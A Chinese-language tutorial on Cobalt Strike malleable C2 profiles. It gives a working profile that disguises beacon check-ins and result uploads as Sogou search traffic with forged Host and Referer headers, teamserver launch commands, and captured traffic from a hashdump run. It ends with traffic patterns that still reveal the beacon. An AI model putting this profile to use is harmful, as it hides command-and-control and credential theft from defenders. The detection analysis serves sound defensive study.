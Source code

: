 # Cobalt Strike之profile分析
### CS使用profile启动
```bash
#先对profile进行测试
./c2lint xxx.profile
```
![](./img/3.png)
```bash
#启动cs
./teamserver ip password xxx.profile
```
后面步骤与正常使用CS一致

### CS中经常使用profile进行流量的伪装 伪装成看起来正常的web流量 从而骗过各种检测
下面编写一个简单的profile进行测试
```
set sleeptime "3000";#设置心跳时间(单位ms)
set jitter "10";#设置心跳抖动
set useragent "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36";#User-Agent
#get请求的伪装(get请求通常为受控阶段)
http-get{
    set uri "/hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "Referer" "https://www.qq.com/";

        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";
        output {
        print;
        }
    }

}
#post请求伪装(post请求通常为返回结果阶段)
http-post{
    set uri "/hdq=&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "X-Requested-With" "XMLHttpRequest";
        header "Referer" "https://www.qq.com/";


        id {
            parameter "aleen";
        }

        output {
            base64;
            print;
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";

        output {
        print;
        }
    }

}
```
profile测试
```
http-get
--------
GET /hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
Referer: https://www.qq.com/
Cookie: session=9LXD/C/CPhSjq7H+SlZ+3w==
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 64

.$.~.._zw....ui.<.UgV.\..E.bx.G*.......lJ.."]..;.....d.&.*^..QpJ

http-post
---------
POST /hdq=&query=1?aleen=22049 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
X-Requested-With: XMLHttpRequest
Referer: https://www.qq.com/
Content-Length: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

Uv8rlFoIMtjHLDsbOm1TJA==

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 0

```
抓取流量(这里使用hashdump演示)
分为两个阶段:
>1:client向server发送心跳包 server向client发送执行的命令

![](./img/1.png)
>2:client将结果返回给server server一般返回content为空

![](./img/2.png)

### 心跳包的抓取
client上线后会定时向server发送一个心跳包
![](./img/4.png)
心跳包的发送时间与profile中的设置相关，上面设置为3s一次，抖动为10%</br>
这样大约每过约2.7~3.3s就会发送一次心跳包
![](./img/5.png)
心跳包中的大部分字段相相同 不同的地方是cookie 也就是我们设置用来伪装的地方
心跳包只是client链接server 所以server不需要返回 一般情况下content为空
### Tricks
这里尽管使用了profile进行伪装，仍可以发现:
>1:在1阶段中client请求字段位于URI或者cookie中 server返回的数据非常大(含有相应的操作指令)</br>
>2:在2阶段中client返回结果位于content中 server通常不返回数据(server只需接收返回结果而无需响应)</br>
>3:流量中有大量时间较为规律、内容相类似的数据包且server返回数据为空或较为固定的数据包
